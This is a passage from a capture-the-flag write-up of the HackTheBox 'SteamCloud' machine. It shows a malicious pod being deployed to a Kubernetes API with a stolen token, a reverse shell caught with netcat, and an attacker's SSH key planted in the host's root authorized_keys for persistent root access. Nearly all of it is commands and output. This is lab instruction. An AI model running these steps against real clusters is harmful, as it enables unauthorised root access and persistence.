       automountServiceAccountToken: true
      hostNetwork: true
    

With `nc` listening, I’ll create the pod:

    
    
    oxdf@hacky$ kubectl apply -f evil-pod2.yaml --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token
    pod/0xdf-pod2 created
    

Immediately there’s a connection:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.133 51442
    bash: cannot set terminal process group (1): Inappropriate ioctl for device
    bash: no job control in this shell
    root@steamcloud:/#
    

With this shell, I’ll create the `.ssh` folder (if it doesn’t exist from
earlier), and write my public key:

    
    
    root@steamcloud:/# mkdir -p /mnt/root/.ssh
    root@steamcloud:/mnt# cd /mnt/root/.ssh
    root@steamcloud:/mnt/root/.ssh# echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > authorized_keys
    

Now I can SSH as root:

    
    
    oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@10.10.11.133
    Linux steamcloud 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Mon Jan 10 09:00:00 2022
    root@steamcloud:~# 
    

[](/2022/02/14/htb-steamcloud.html)


